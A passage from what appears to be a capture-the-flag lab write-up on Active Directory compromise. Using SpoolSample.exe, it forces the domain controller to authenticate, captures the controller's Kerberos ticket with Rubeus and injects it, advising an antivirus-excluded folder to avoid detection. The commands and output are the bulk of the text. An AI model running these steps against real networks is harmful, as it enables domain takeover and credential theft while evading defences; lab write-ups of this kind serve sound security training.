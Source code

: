 
Then I procedeed to download the [SpoolSample.exe](https://github.com/jtmpu/PrecompiledBinaries/blob/master/SpoolSample.exe) into server1 from my attacker machine (download the file into excluded folder, otherwise it will be caught by Defender). This file allows to trigger the authentication action from corpdc to server1. 

Execute the following command:

	SpoolSample.exe CORPDC.CORP.THERESERVE.LOC SERVER1.CORP.THERESERVE.LOC
 	[+] Converted DLL to shellcode
	[+] Executing RDI
	[+] Calling exported function
	TargetServer: \\CORPDC.CORP.THERESERVE.LOC, CaptureServer: \\SERVER1.CORP.THERESERVE.LOC
	Attempted printer notification and received an invalid handle. The coerced authentication probably worked!

Please note that you must use the FQDN for the server, otherwise SpoolSample fails. After a while we recive a new ticket on Rebues

 	[*] 4/18/2024 9:36:00 AM UTC - Found new TGT:

	  User                  :  CORPDC$@CORP.THERESERVE.LOC
	  StartTime             :  4/18/2024 8:13:06 AM
	  EndTime               :  4/18/2024 6:12:52 PM
	  RenewTill             :  4/25/2024 8:12:52 AM
	  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
	  Base64EncodedTicket   :

	    doIF2jCCBdagAwIBBaEDAgEWooIEyzCCB...FUkVTRVJWRS5MT0OpKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0NPUlAuVEhFUkVTRVJWRS5MT0M=
	
	[*] Ticket cache size: 1

With Rubeus we can also import the TGT ticket into current session. To do that first we need to issue klist to find the LUID (logon id):

	klist
 	Current LogonId is 0:0x2027d4
  	....

   	Rubeus.exe ptt /luid:0x2027d4 /ticket:doIF2jCCBdagAwIBBaEDAgEWooIEyzCCB...FUkVTRVJWRS5MT0OpKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0NPUlAuVEhFUkVTRVJWRS5MT0M=

Verify that the ticket has been injected:

	klist
	
	Current LogonId is 0:0x2027d4
	
	Cached Tickets: (1)
	
	#0>     Client: CORPDC$ @ CORP.THERESERVE.LOC
	        Server: krbtgt/CORP.THERESERVE.LOC @ CORP.THERESERVE.LOC
	        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	        Start Time: 4/18/2024 8:13:06 (local)
	        End Time:   4/18/2024 18:12:52 (local)
	        Renew Time: 4/25/2024 8:12:52 (local)
	        Session Key Type: AES-256-CTS-HMAC-SHA1-96
	        Cache Flags: 0x1 -> PRIMARY
	        Kdc Called:
### DCSync attack
